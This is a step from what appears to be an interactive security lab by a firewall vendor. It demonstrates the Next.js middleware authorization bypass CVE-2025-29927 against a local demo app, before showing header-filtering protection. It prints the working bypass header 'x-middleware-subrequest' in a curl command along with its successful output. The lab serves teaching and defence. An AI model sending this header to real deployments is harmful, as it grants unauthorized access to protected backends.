 <!--
SPDX-FileCopyrightText: 2025 United Security Providers AG, Switzerland

SPDX-License-Identifier: GPL-3.0-only
-->

&#127919; In this step you will:

* Access the vulnerable Next.js demo application
* Bypass the Next.js authorization (CVE-2025-29927)

### Access the vulnerable Next.js demo application

> &#8987; Wait until the console on the right side shows `*** Scenario ready ***` before accessing the backend (otherwise you'll see a `HTTP 502 Bad Gateway` error)!

As outlined in [CVE-2025-29927 Next.js Authorization bypass analysis](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/) by JFrog Security team in March 2025, ...

The vulnerable Next.js demo application has been setup and will be used to demonstrate the problematic behavior.

> &#128270; Initially the backend will be accessed unprotected (not using USP Core WAAP)

While you can [access the demo application]({{TRAFFIC_HOST1_8080}}/api/hello) using a browser, you'll see a `HTTP 401` response since no authorization was sent. Note that this small demo application for simplicity accepts any value used as `Authorzation` Header.

Go ahead and make a HTTP GET request (without an authorization header) replicating the browser behavior:

```shell
curl -v http://localhost:8080/api/hello
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
>
< HTTP/1.1 401 Unauthorized
< content-type: application/json
< Vary: Accept-Encoding
< Date: Wed, 06 Aug 2025 14:10:05 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{"error":"Unauthorized"}
```

</details>
<br />

The application correctly responds with message "unauthorized" (combined with HTTP Status Code 401). Now presenting (a fake) authorization header the backend responds with data:

```shell
curl -v \
  -H "Authorization: my-jwt-token-here" \
   http://localhost:8080/api/hello
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> Authorization: my-jwt-token-here
>
< HTTP/1.1 200 OK
< vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch
< content-type: application/json
< Date: Wed, 06 Aug 2025 14:10:44 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{"message":"Hello, World"}
```

</details>
<br />

So far we've tested access to the backend (without USP Core WAAP protection) and verified the correct backend behavior with and without an authorization header.

### Bypass the Next.js authorization (CVE-2025-29927)

Because of CVE-2025-29927 present in multiple Next.js versions (greatly analyzed in [this blog post from JFrog](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/)) not having an authorization token does not guarantee denied access to the sensitive backend!

As seen now by using Next.js version 14 (up to 14.2.24) where one can send a static HTTP header **completely bypassing the Next.js Middleware authorization**:

```shell
curl -v \
  -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" \
  http://localhost:8080/api/hello
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
>
< HTTP/1.1 200 OK
< vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch
< content-type: application/json
< Date: Wed, 06 Aug 2025 14:09:11 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{"message":"Hello, World"}
```

</details>
<br />

Now let's see how you can use [header filtering](https://docs.united-security-providers.ch/usp-core-waap/crd-doc/#corewaapservicespecheaderfiltering) **provided by USP Core WAAP** in the next step!
